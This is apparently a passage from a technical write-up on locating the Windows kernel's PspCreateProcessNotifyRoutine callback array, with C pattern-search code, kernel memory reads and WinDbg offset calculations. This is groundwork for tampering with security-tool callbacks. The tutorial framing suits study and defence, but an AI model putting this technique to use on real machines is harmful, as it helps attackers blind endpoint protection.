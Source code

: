 	//the address returned by the patternsearch is just below the offsets. 
	DWORD64 patternaddress = PatternSearch(IoDeleteSymbolicLink, RtlDestroyHeap, offsets.process);
	Log("[+] patternaddress: %p", patternaddress);

	DWORD offset;

	BOOL b = this->objMemHandler->VirtualRead(
		(DWORD64)patternaddress - <span style="color: green;">0x0f</span>,
		&offset,
		sizeof(offset)
	);

	//so we take the 64 bit address, but have a 32 bit addition. To prevent overflow, we grab the first half (shift right, shift left), then add the 32bit DWORD patternaddress with the 32bit offset, and subtract 8. *cringe*
	DWORD64 PspCreateProcessNotifyRoutineAddress = (((patternaddress) >> 32) << 32) + ((DWORD)(patternaddress)+offset) - <span style="color: green;">0x0f</span> + 0x04;
  ....................
}
</pre>

Looking at this piece of code, we will see that after the byte search we will get the patternaddress which will be pointing to the xor command `fffff800a4e6201a`.
We need to substract from it an offset to make it point to the 4-byte relative offset of the array which is `712a4a00` in reverse at `fffff800a4e6200b`.

<pre>
lkd> dd fffff800`a4e6200b L1
fffff800`a4e6200b  004a2a71
</pre>

so we need to substract `0xf` from the pattern address.

<pre>
lkd> dd fffff800`a4e6200b L1
fffff800`a4e6200b  004a2a71
lkd> ? fffff800`a4e6201a - fffff800`a4e6200b
Evaluate expression: 15 = 00000000`0000000f
</pre>

### Fixing the functions
`nt!PspSetCreateProcessNotifyRoutine` is not an exported function, so we cannot get the address of the function directly in our c code.
We need to start the byte search using a function that is exported and close to `nt!PspSetCreateProcessNotifyRoutine`.

the functions needs to be exported to be able to use GetProcAddress and GetModuleHandle on them and get the function address.

So To find the closest exported functions (start and end) to use in our code as a starting point for the byte search, we can use IDA.

First let's get the offset to the function from the nt base

<pre>
lkd> ? nt!PspSetCreateProcessNotifyRoutine - nt
Evaluate expression: 8499848 = <span style="color: green;">00000000`00a61fd0</span>
</pre>
